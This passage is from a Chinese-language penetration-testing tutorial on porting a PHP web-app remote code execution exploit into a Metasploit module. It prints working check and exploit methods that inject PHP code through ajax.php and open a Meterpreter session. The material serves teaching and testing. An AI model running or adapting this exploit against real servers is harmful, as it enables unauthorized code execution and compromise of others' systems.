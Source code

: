 我们可以看到，我们已经声明了所有必需的库，并在 initialize 部分中提供了必要的信息。因为我们正在利用一个基于 PHP 的漏洞，所以我们选择平台为 PHP。我们将`DisableNops`设置为 true 以关闭有效负载中的`NOP`使用，因为该漏洞攻击的目标是 web 应用程序中的远程代码执行漏洞，而不是基于软件的漏洞。我们知道该漏洞存在于`ajax.php`文件中。因此，我们向`ajax.php`文件声明了`TARGETURI`的值。我们还创建了一个名为`CHECKURI`的新字符串变量，它将帮助我们创建一个漏洞检查方法。让我们看一下漏洞的下一部分：

```
def check 
  send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => "fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');" 
      } 
   ) 
  resp = send_request_raw({'uri' => normalize_uri(datastore['CHECKURI']),'method' => 'GET'}) 
  if resp.body =~ /phpinfo()/ 
   return Exploit::CheckCode::Vulnerable 
  else 
   return Exploit::CheckCode::Safe 
  end 
  end 
```

我们使用`send_request_cgi`方法以有效的方式适应`POST`请求。我们将 method 的值设置为`POST`，URI 设置为规范化格式的目标 URI，`POST`参数`CODE`的值设置为`fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');`。该有效负载将在编写代码时创建一个名为`info.php`的新文件，执行该代码时，将显示一个 PHP 信息页面。我们创建了另一个获取刚刚创建的`info.php`文件内容的请求。我们使用`send_request_raw`技术并将方法设置为`GET`。我们前面创建的`CHECKURI`变量将用作此请求的 URI。

我们可以看到，我们将请求的结果存储在`resp`变量中。接下来，我们将`resp`的主体与`phpinfo()`表达式匹配。如果结果为真，则表示在目标上成功创建了`info.php`文件，`Exploit::CheckCode::Vulnerable`的值将返回给用户，用户将显示一条消息，将目标标记为易受攻击。否则，将使用`Exploit::CheckCode::Safe`标记目标为安全。现在让我们跳到利用漏洞的方法：

```
  def exploit 
    send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => payload.encoded 
      } 
    ) 
  end 
end 
```

我们可以看到，我们刚刚创建了一个简单的`POST`请求，代码参数中包含了我们的负载。一旦它在目标上执行，我们就可以访问 PHP MeterMeter。让我们看看这个漏洞的实际应用：

![](assets/8b55d368-febe-452a-98e2-fab97148a29f.png)

我们可以看到目标上有 MeterMeter 访问权限。我们已成功地将远程代码执行漏洞转化为 Metasploit 中的有效漏洞。

PHP 实用程序带的官方 Metasploit 模块已经存在。您可以从以下位置下载该漏洞：[https://www.exploit-db.com/exploits/39554/](https://www.exploit-db.com/exploits/39554/) 。

# 将基于 TCP 服务器/浏览器的漏洞导入 Metasploit
